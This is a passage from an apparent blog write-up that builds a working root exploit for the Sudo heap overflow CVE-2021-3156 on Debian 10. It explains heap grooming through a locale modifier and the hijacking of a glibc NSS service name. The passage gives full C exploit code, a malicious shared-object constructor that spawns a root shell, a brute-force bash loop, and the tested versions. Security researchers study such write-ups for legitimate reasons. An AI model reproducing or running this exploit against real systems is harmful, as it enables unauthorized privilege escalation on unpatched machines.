[...]From an attacker prospective, this means that if we manage to overwrite the name field in the corresponding service_user structure (assigned to the ni variable in __nss_database_lookup()), with a string controlled by us, for example XXXXXX/XXXXXX, the resulting string will be libnss_XXXXXX/XXXXXX.so.2. Consequently __libc_dlopen_mode(), being unable to find the shared object in the default directory (/usr/lib/x86_64-linux-gnu/), will look for it in the folder libnss_XXXXXX in the current directory.
At this point we could simply write a malicious shared object, hijack the constructor and gain root privileges.
The first problem arises from the heap layout. Let’s do a step back and let’s visualize the structures in memory, starting from the name_database structure, assigned to the service_table variable in __nss_database_lookup():

If we look at the addresses, we can immediately notice that they are basically contiguous in memory. It means that if we want to use our heap overflow to overwrite the name field in one of the service_user structures, we will almost inevitably overwrite other pointers “along the way”, probably causing a segmentation fault.
For example, even if we managed to obtain an allocation at 0x55555557db00, right before the first database entry, targeting the string "files" at 0x55555557dc30, our overflow would overwrite multiple database entries, multiple services and so on. In other words, the overflow would completely destroy the structures in memory.
We need, in some way, to control the heap layout. Do we have any resource that we can use to create “holes” in the heap? The answer is yes!
At the very beginning of the Sudo’s main() function, there is a call to setlocale():
[...]
150
151 setlocale(LC_ALL, "");
152 bindtextdomain(PACKAGE_NAME, LOCALEDIR);
153 textdomain(PACKAGE_NAME);
154
[...]From the setlocale() source code, we can see that it will use malloc() and free() multiple times to allocate/deallocate localization variables. As we can read from opengroup.org:
[...]
LC_COLLATE, LC_CTYPE, LC_MESSAGES, LC_MONETARY, LC_NUMERIC and LC_TIME are defined to accept an additional field "@modifier",
which allows the user to select a specific instance of localisation data within a single category (for example,
for selecting the dictionary as opposed to the character ordering of data).
The syntax for these environment variables is thus defined as:
[language[_territory][.codeset][@modifier]]
[...]It means that we can use a string of an arbitrary length as @modifier to control the size of the environment variable. Afterwards, the allocated memory region will be freed, and will create a “hole” in the heap. Hopefully using this method we will be able to control the heap layout.
For our first test, let’s use an argument size of 16 bytes, an envp size of 256 bytes and a LC modifier of 57 bytes. Moreover, let’s set SUDO_ASKPASS=/bin/false to prevent Sudo from asking the user’s password:
(Of course to identify the correct combination of sizes I had to spend some time in GDB)
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#define USER_BUFF_SIZE 0x10
#define ENVP_SIZE 0x100
#define LC_SIZE 0x39
#define LC_TIME "LC_TIME=C.UTF-8@"
int main(void)
{
char user_buff[USER_BUFF_SIZE];
char *envp[ENVP_SIZE];
char lc_var[LC_SIZE];
memset(user_buff, 'A', USER_BUFF_SIZE);
user_buff[USER_BUFF_SIZE - 2] = 0x5c;
user_buff[USER_BUFF_SIZE - 1] = 0x00;
strcpy(lc_var, LC_TIME);
memset(lc_var + strlen(LC_TIME), 'B', LC_SIZE - strlen(LC_TIME));
lc_var[LC_SIZE - 1] = 0x00;
for (int i = 0; i < ENVP_SIZE; i++)
envp[i] = "C";
envp[ENVP_SIZE - 3] = "SUDO_ASKPASS=/bin/false";
envp[ENVP_SIZE - 2] = lc_var;
envp[ENVP_SIZE - 1] = NULL;
char *args[] =
{
"/usr/bin/sudoedit",
"-A",
"-s",
user_buff,
NULL
};
execve(args[0], args, envp);
}Let’s modify our python script to run our C program instead of directly execute sudoedit:
import subprocess, signal
cmd = ['./test']
env = {}
p = subprocess.Popen(cmd, env=env)
p.send_signal(signal.SIGSTOP)
input('[+] Attach GDB')Using continue multiple times, we can reach the breakpoint in __nss_database_lookup(), from here, let’s use the search command to find the LC_TIME variable in memory:

Now let’s take a look to the structures in memory:

The name_database structure (previously assigned to the variable service_table), its first entry and the next one, are respectively located at 0x55555557e5f0, 0x55555557e860 and 0x55555557e920 but now, as we can see, the first address highlighted in green, the service_user structure in the second database entry (group), is located at 0x555555580ea0, more than two pages (0x2000 bytes) away from the other structures!
This is a very good news for us, because if we manage to obtain an allocation between the second database entry and the location of its first service, we will be able to use the heap overflow to overwrite the name field in the service_user structure!
Let’s use the tcachebins command to visualize the current available chunks in tcache:

Awesome! We have three available 0x40 chunks between the second database entry and its first service! Hopefully, allocating a user buffer of a certain size, we should be able to obtain an allocation in one of these chunks.
After updating the USER_BUFF_SIZE variable in the code of our exploit, from 16 bytes to 48 bytes (0x30), let’s run the program again, reaching the breakpoint in __nss_database_lookup() and then let’s use search to locate our buffer in memory:

Perfect! We got an allocation in one of the three chunks: 0x555555580500. Now we only need to modify the envp size to overwrite the name field of the files service. As we have seen in the previous section, the shared object corresponding to the files service, has already been loaded in memory, so __nss_lookup_function() will directly try to look up the symbol in the library instead of using nss_load_library() to load it. We can simply overcome this problem setting the library pointer to NULL.
Wait, but how can we use NULL bytes in envp? Simple, we can populate envp with many backslashes: since they will not be escaped, they will actually escape the following NULL terminator that will be copied into the heap by set_cmnd() (Exactly what we have already seen in the first debugging session)!
Now we can do some math and calculate the right size to overwrite the name field of the files service in the group database: 0x9b0 bytes:
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#define USER_BUFF_SIZE 0x30
#define ENVP_SIZE 0x9b0
#define LC_SIZE 0x39
#define LC_TIME "LC_TIME=C.UTF-8@"
int main(void)
{
char user_buff[USER_BUFF_SIZE];
char *envp[ENVP_SIZE];
char lc_var[LC_SIZE];
memset(user_buff, 'A', USER_BUFF_SIZE);
user_buff[USER_BUFF_SIZE - 2] = 0x5c;
user_buff[USER_BUFF_SIZE - 1] = 0x00;
strcpy(lc_var, LC_TIME);
memset(lc_var + strlen(LC_TIME), 'B', LC_SIZE - strlen(LC_TIME));
lc_var[LC_SIZE - 1] = 0x00;
for (int i = 0; i < ENVP_SIZE - 0x0f; i++)
envp[i] = "\\";
envp[ENVP_SIZE - 0x0f] = "XXXXXXX/XXXXXX\\";
for (int i = ENVP_SIZE - 0x0e; i < ENVP_SIZE - 3; i++)
envp[i] = "\\";
envp[ENVP_SIZE - 3] = "SUDO_ASKPASS=/bin/false";
envp[ENVP_SIZE - 2] = lc_var;
envp[ENVP_SIZE - 1] = NULL;
char *args[] =
{
"/usr/bin/sudoedit",
"-A",
"-s",
user_buff,
NULL
};
execve(args[0], args, envp);
}As we can see in GDB, as expected, set_cmnd() will escape the NULL bytes copying them into the heap:

After the heap overflow, we will be able to set every field in the target service_user structure to NULL, and the name field to XXXXXX/XXXXXX:

Finally, as expected, nss_load_library() will construct the library name using our malicious name, and it will try to load the shared object from the libnss_XXXXXX folder in the current directory using __libc_dlopen_mode():

At this point we only need to write a malicious shared object, called XXXXXXX.so.2 and place it in a folder called libnss_XXXXXX in the current directory:
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
// gcc -shared -o XXXXXX.so.2 -fPIC XXXXXX.c
static void _init() __attribute__((constructor));
void _init(void)
{
puts("[+] Shared object hijacked with libnss_XXXXXXX/XXXXXX.so.2!");
setuid(0);
setgid(0);
if (!getuid())
{
puts("[+] We are root!");
system("/bin/sh 2>&1");
}
else
{
puts("[X] We are not root!");
puts("[X] Exploit failed!");
}
}Executing our exploit again, we will be able to hijack the library and gain root privileges:

As a side note, I also managed to obtain root privileges hijacking a service_user structure, overwriting the last two bytes of the service field in the corresponding database entry to make it point in an upper section of the heap, then I created a fake service_user structure in this region with a malicious name field.
Now, because of slightly differences in the heap layout from system to system, we cannot hard code sizes in our exploit. For example, another Debain 10 might require a different ENVP_SIZE size and/or a different LC_SIZE, I did some tests and I managed to find a pattern that actually works for multiple systems. Bruteforcing will be required to find the right combinations of sizes. Our final exploit will be the following:
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#define USER_BUFF_SIZE 0x30
#define LC_TIME "LC_TIME=C.UTF-8@"
void main(int argc, char *argv[])
{
char user_buff[USER_BUFF_SIZE];
int envp_size = atoi(argv[1]);
int lc_size = atoi(argv[2]);
char *envp[envp_size];
char lc_var[lc_size];
memset(user_buff, 'A', USER_BUFF_SIZE);
user_buff[USER_BUFF_SIZE - 2] = 0x5c;
user_buff[USER_BUFF_SIZE - 1] = 0x00;
strcpy(lc_var, LC_TIME);
memset(lc_var + strlen(LC_TIME), 'B', lc_size - strlen(LC_TIME));
lc_var[lc_size - 1] = 0x00;
for (int i = 0; i < envp_size - 0x0f; i++)
envp[i] = "\\";
envp[envp_size - 0x0f] = "XXXXXXX/XXXXXX\\";
for (int i = envp_size - 0x0e; i < envp_size - 3; i++)
envp[i] = "\\";
envp[envp_size - 3] = "SUDO_ASKPASS=/bin/false";
envp[envp_size - 2] = lc_var;
envp[envp_size - 1] = NULL;
char *args[] =
{
"/usr/bin/sudoedit",
"-A",
"-s",
user_buff,
NULL
};
printf("\r[*] lc_size: 0x%lx / envp_size: 0x%lx", lc_size, envp_size);
fflush(stdout);
execve(args[0], args, envp);
}It will accept lc_size and envp_size from command line, so we can use the following bash script to run it:
#!/bin/bash
for (( i = 17; i < 512; i += 8 )); do
for (( j = 512; j < 4096; j += 16 )); do
./exploit $j $i
done
doneWe can enable ASLR and run the exploit:
That’s it! We have our exploit for Debian 10! If you have any question, feel free to contact me. You can download all the files used in this article from my personal GitHub repository:
CVE-2021-3156: Sudo heap overflow exploit for Debain 10
The exploit is currently tested on:
-
Sudo:
Version 1.8.27 (1.8.27-1+deb10u1) Checksum (sha256): b83f8f4e763ae9860f1e3bde7f6cc913da51ceccc31d84c1cca2f86ac680e1de Version 1.8.27 (1.8.27-1+deb10u2) Checksum (sha256): ca4a94e0a49f59295df5522d896022444cbbafdec4d94326c1a7f333fd030038 -
Glibc:
Version 2.28 Checksum (sha256): dedb887a5c49294ecd850d86728a0744c0e7ea780be8de2d4fc89f6948386937 -
Debain 10:
Linux debian 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64 GNU/Linux Linux debian 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64 GNU/Linux Linux debian 4.19.0-14-amd64 #1 SMP Debian 4.19.171-2 (2021-01-30) x86_64 GNU/Linux
References
CVE-2021-3156
GNU NSS